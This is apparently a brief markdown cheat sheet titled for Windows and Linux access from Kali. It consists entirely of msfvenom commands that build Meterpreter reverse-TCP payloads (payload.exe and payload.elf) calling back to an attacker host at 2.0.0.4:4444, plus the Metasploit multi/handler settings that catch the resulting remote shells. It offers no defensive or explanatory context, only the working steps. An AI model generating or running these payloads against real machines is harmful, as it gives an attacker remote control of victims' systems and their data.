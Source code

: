 ## For windows access from kali 
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=2.0.0.4 LPORT=4444 -f exe -o payload.exe

msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 2.0.0.4
set LPORT 4444
exploit
```

## For linux access from kali
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=2.0.0.4 LPORT=4444 -f elf -o payload.elf

msfconsole

use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 2.0.0.4
set LPORT 4444
exploit
```


